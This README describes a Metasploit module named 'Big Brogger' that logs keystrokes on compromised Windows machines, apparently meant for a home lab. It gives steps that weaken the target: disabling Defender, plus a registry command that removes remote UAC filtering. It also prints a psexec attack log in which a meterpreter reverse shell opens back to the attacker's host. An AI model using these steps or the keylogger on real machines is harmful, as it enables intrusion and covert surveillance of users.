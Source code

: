 # Big Brogger
A Metasploit module that captures keystrokes on compromised Windows machines.

## Requirements
- Kali Linux virtual machine with Metasploit
- Windows 10 virtual machine

## Setup
Before attacking, you need to install and make the Windows machine vulnerable. You can find a guide to help you [here](https://medium.com/@bmatth21/how-to-setup-windows-10-vm-lab-for-hacking-608592d550f2).

You also need to disable the Windows Defender real-time protection in `Windows Security > Virus & threat protection > Real-time protection`

Finally, you need to disable the remote UAC by opening a terminal as administrator and type the following command:
```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## Usage
This a post module so you will have to get access to the Windows machine. You can do it by any means but we will use `windows/smb/psexec` in Metasploit for the demonstration.

First, use psexec to get a session with a valid credential:
```
msf > use windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/smb/psexec) > set RHOST 10.0.2.15
RHOST => 10.0.2.15
msf exploit(windows/smb/psexec) > set SMBUser admin
SMBUser => admin
msf exploit(windows/smb/psexec) > set SMBPass admin
SMBPass => admin
msf exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.0.2.4:4444
[*] 10.0.2.15:445 - Connecting to the server...
[*] 10.0.2.15:445 - Authenticating to 10.0.2.15 as user 'admin'...
[*] 10.0.2.15:445 - Selecting native target
[*] 10.0.2.15:445 - Uploading payload...
[*] 10.0.2.15:445 - Created \PTIhqIrQ.exe...
[+] 10.0.2.15:445 - Service started successfully...
[*] 10.0.2.15:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (175686 bytes) to 10.0.2.15
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.15:49782) at 2024-03-22 21:39:59 +0100

meterpreter >
```